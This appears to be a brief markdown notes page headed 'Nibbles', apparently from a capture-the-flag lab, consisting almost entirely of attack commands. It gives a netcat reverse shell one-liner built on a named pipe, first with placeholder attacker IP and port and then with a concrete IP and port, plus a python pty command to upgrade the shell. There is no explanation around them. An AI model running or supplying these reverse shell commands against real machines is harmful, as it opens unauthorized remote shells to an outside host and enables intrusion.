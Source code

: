 ## Nibbles
<b>reverse shell</b>
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

<b>To activate shell</b>
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.97 9443 >/tmp/f